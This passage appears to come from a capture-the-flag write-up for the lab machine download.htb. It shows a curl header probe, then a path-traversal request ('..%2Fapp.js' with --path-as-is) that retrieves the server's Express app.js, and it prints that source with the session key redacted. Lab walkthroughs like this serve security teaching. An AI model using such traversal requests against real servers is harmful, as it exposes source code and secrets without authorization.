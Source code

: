     curl -I http://download.htb                                                    
    HTTP/1.1 200 OK
    Server: nginx/1.18.0 (Ubuntu)
    Date: Sun, 19 Nov 2023 18:55:51 GMT
    Content-Type: text/html; charset=utf-8
    Content-Length: 3409
    Connection: keep-alive
    X-Powered-By: Express
    ETag: W/"d51-5GzI9n7y7raS8vKB6fFHd40C4+U"
    Set-Cookie: download_session=eyJmbGFzaGVzIjp7ImluZm8iOltdLCJlcnJvciI6W10sInN1Y2Nlc3MiOltdfX0=; path=/; expires=Sun, 26 Nov 2023 18:55:51 GMT; httponly
    Set-Cookie: download_session.sig=4kbZR1kOcZNccDLxiSi7Eblym1E; path=/; expires=Sun, 26 Nov 2023 18:55:51 GMT; httponly


<a id="org8c4be67"></a>

# Information Disclosure

Now we can try to exploit by an `LFI` for obtain <span class="underline">app.js</span>

    curl --path-as-is "http://download.htb/files/download/..%2Fapp.js" -s -o app.js

We this command our obatined the file after mentioned

    "use strict";
    var __importDefault = (this && this.__importDefault) || function (mod) {
        return (mod && mod.__esModule) ? mod : { "default": mod };
    };
    Object.defineProperty(exports, "__esModule", { value: true });
    const express_1 = __importDefault(require("express"));
    const nunjucks_1 = __importDefault(require("nunjucks"));
    const path_1 = __importDefault(require("path"));
    const cookie_parser_1 = __importDefault(require("cookie-parser"));
    const cookie_session_1 = __importDefault(require("cookie-session"));
    const flash_1 = __importDefault(require("./middleware/flash"));
    const auth_1 = __importDefault(require("./routers/auth"));
    const files_1 = __importDefault(require("./routers/files"));
    const home_1 = __importDefault(require("./routers/home"));
    const client_1 = require("@prisma/client");
    const app = (0, express_1.default)();
    const port = 3000;
    const client = new client_1.PrismaClient();
    const env = nunjucks_1.default.configure(path_1.default.join(__dirname, "views"), {
        autoescape: true,
        express: app,
        noCache: true,
    });
    app.use((0, cookie_session_1.default)({
        name: "download_session",
        keys: ["<redact>"],
        maxAge: 7 * 24 * 60 * 60 * 1000,
    }));
    app.use(flash_1.default);
    app.use(express_1.default.urlencoded({ extended: false }));
    app.use((0, cookie_parser_1.default)());
    app.use("/static", express_1.default.static(path_1.default.join(__dirname, "static")));
    app.get("/", (req, res) => {
        res.render("index.njk");
    });
    app.use("/files", files_1.default);
    app.use("/auth", auth_1.default);
    app.use("/home", home_1.default);
    app.use("*", (req, res) => {
        res.render("error.njk", { statusCode: 404 });